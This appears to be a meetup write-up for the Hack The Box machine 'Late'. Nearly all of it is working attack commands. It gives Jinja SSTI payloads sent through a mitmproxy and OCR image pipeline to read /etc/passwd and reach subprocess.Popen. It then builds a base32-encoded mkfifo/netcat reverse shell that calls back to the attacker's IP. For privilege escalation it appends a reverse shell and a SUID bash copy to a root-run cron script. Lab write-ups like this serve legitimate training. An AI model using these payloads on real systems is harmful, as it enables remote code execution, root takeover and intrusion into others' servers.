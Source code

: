 

# hackdewereld meetup 18-08-2022
late.htb

# hosts
- late.htb 
- image.late.htb # vuln for ssti


# special setting:

If your convert commands fails in the proxy use this command:

```bash
ls /etc/ImageMagick*/policy.xml | while read line; do cp $line $line.bak; done; sed -i 's/16KP/128KP/g' /etc/ImageMagick*/policy.xml
```

# what to do
- make image

I chose to make a mitm proxy solution for this.

- send to server with ocr

You can use curl while running the mitmproxy like this:
```bash
# pane 1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane 2
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
```

The haxhaxhax is injected via mitmproxy.

- ssti

I've tried using tpl-map on this proxy but that didn't work.

```bash
python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=' --proxy 'http://localhost:8800'
```

So let's do it manual.

```bash
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
curl -x 'http://localhost:8800' -d 'ssti={{"7"*7}}' http://images.late.htb/haxhaxhax
# python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=*' --proxy 'http://localhost:8800'

# read /etc/passwd on the server:
curl -Ssx 'http://localhost:8800' -d 'ssti={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}' http://images.late.htb/haxhaxhax

# get all subclasses:
curl -Ssx 'http://localhost:8800' -d 'ssti=abcde {% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %} asdfb' http://images.late.htb/haxhaxhax | w3m -dump -T text/html

# get subprocesses number:
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen
# 243: class'subprocess.Popen
# 475:class 'click.utils.KeepOpenFile
```

Rce:

```bash
# pane 1
ip=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1)
port=9000

index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))']("id",shell=True,stdout=-1).communicate()[0].strip()}} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$ip' '$port' >/tmp/f' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax

# pane 2
nc -lvnp 9000 
# or 
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 9000 && reset
```




# privesc
- writable sbin folder that is exec by root crontab


```bash
# rev shell:
echo "echo $(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 443 >/tmp/f' | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
# suid bin:
echo -e 'cp /bin/bash /tmp/bash\nchown root:root /tmp/bash\nchmod +x /tmp/bash\nchmod u+s /tmp/bash' >> /usr/local/sbin/ssh-alert.sh;echo bla | ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1 ; /tmp/bash -p
```

and execute it by using ssh on the server

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
```


```bash
index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'echo "echo $(echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 443 >/tmp/f" | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax
```


# ORC POC

```bash
kill -9 $(ps aux | grep -i mitm | awk '{print $2}'); pkill nc; ./one-click-root.py
```

![](./ocr.gif)

